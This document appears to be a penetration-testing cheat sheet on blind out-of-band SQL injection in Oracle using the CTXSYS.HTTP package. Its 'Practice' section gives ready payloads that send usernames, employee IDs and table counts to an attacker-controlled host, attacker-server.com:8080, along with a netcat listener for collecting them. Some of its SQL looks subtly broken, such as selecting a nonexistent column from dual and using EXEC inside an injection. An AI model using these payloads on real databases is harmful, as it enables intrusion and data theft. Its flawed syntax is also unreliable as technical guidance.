

# CTXSYS.HTTP

## Context

The CTXSYS.HTTP package is part of the Oracle Text component that enables Oracle databases to perform HTTP requests. This capability can be exploited to conduct SQL injection attacks, specifically blind out-of-band injections, by sending requests to external servers and retrieving data from an Oracle database via HTTP.

## Theory

In the realm of blind out-of-band injection, CTXSYS.HTTP can be a crucial vector for exfiltrating data. By leveraging Oracle's ability to perform HTTP requests, attackers can create scenarios where the database silently sends out data to an external server controlled by the attacker.

The high-level idea here is to find an SQL injection point within an Oracle application, enable necessary network access controls (ACLs), and utilize the CTXSYS.HTTP package to initiate HTTP requests that subtly transfer data outside the intended network boundaries.



## Practice

### Identify SQL Injection Point

The first step is to identify a vulnerable SQL injection point within the Oracle database application. This requires analyzing the application's input fields, especially those that interact with the database directly.

**Explanation:**

Identify potential SQL injection points by scrutinizing input fields or API endpoints where dynamic SQL queries are constructed and executed.

**Command Example:**

```sql
SELECT employee_id, first_name, last_name FROM employees WHERE department_id = '10' AND '1'='1';
```

### Enable Network ACLs

To perform HTTP requests, the Oracle database must have the appropriate network access controls (ACLs) enabled. These controls dictate which external networks the database can communicate with.

**Explanation:**

Configure the Oracle database's network ACLs to allow outbound HTTP requests required for the data exfiltration attempt.

### Craft CTXSYS.HTTP Request

Crafting the SQL payload involves creating a well-formed HTTP request through the CTXSYS.HTTP package that will send sensitive data to an external server.

**Explanation:**

Formulate a SQL payload to execute an HTTP request using CTXSYS.HTTP, including any needed SQL logic to capture sensitive data within the database.

**Example Payloads:**

1. **Basic Request:**
   ```sql
   EXEC CTXSYS.HTTP.REQUEST('http://attacker-server.com:8080/data?info=' || (SELECT username FROM dual));
   ```

2. **Advanced Data Extraction:**
   ```sql
   EXEC CTXSYS.HTTP.REQUEST('http://attacker-server.com:8080/data?id=' || (SELECT employee_id FROM employees WHERE ROWNUM = 1));
   ```

### Execute HTTP Call

Leverage the CTXSYS.HTTP package to execute the constructed HTTP request, thereby transferring data to an external server.

**Command Example:**

```sql
EXEC CTXSYS.HTTP.REQUEST('http://attacker-server.com:8080/transfer?data=' || (SELECT COUNT(*) FROM users));
```

### Capture Out-of-Band Responses

Monitoring the external server for HTTP requests sent by the Oracle database is crucial in validating successful data exfiltration.

**Explanation:**

Set up a server to monitor incoming HTTP requests generated from the Oracle database, allowing to capture and analyze the exfiltrated data.

**Example Setup:**
Using `Netcat` for listening on the external server:

```bash
nc -lvkp 8080
```

### Tools

- **Wireshark:** For packet capturing and analysis to observe network-level data flows.
- **SQLMap:** For automating SQL injection discovery and exploitation.
- **Burp Suite:** For intercepting HTTP traffic and modifying requests for exploration.
- **Netcat:** As a network utility for monitoring communication to the attacker's server.

### Result Usage

Once the data has been exfiltrated using CTXSYS.HTTP, analyze it to determine the granularity and sensitivity of the information extracted. This can provide insights into the application's internal database structure and potential vulnerabilities that can be further exploited for consequential attacks.